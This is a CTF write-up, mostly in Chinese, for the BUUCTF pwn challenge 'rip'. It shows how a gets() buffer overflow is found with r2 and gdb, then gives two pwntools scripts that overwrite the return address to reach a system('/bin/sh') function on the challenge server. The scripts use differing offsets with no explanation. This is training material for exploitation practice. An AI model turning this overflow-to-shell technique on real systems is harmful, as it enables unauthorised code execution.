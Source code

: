 # rip

### Solve

1. 先用r2看一下main裡面有什麼東西，可以看到get這個function接著用於是用BOF去測測看，可以得到offset為23

    ![image](https://github.com/KJ-black/CTF-write-up/blob/main/BUUCTF/PWN/jpg/rip/Untitled.png)

    ※ offset：
    gdb$ pattc 100
    gdb$ crashoff

2. 再用r2的afl看看有哪些function，結果看到可疑的sym.fun，於是點進去看看

    ![image](https://github.com/KJ-black/CTF-write-up/blob/main/BUUCTF/PWN/jpg/rip/Untitled1.png)

3. 可以看到裡面直接call了system("/bin/sh")，正是我們的目標，於是我們用disas fun找到fun function的address

    ![image](https://github.com/KJ-black/CTF-write-up/blob/main/BUUCTF/PWN/jpg/rip/Untitled2.png)

### exp 1

![image](https://github.com/KJ-black/CTF-write-up/blob/main/BUUCTF/PWN/jpg/rip/Untitled3.png)

```python
from pwn import *

host = "node3.buuoj.cn"
port = 29171

r = remote(host, port)
payload = "a"*23
fun = 0x401187 # 0x40118a both correct
payload += p64(fun)
r.sendline(payload)

r.interactive()
```

### exp 2

```python
from pwn import *

host = "node3.buuoj.cn"
port = 29171

r = remote(host, port)
payload = "a"*15
fun = 0x401186
payload += p64(fun)
r.sendline(payload)

r.interactive()
```
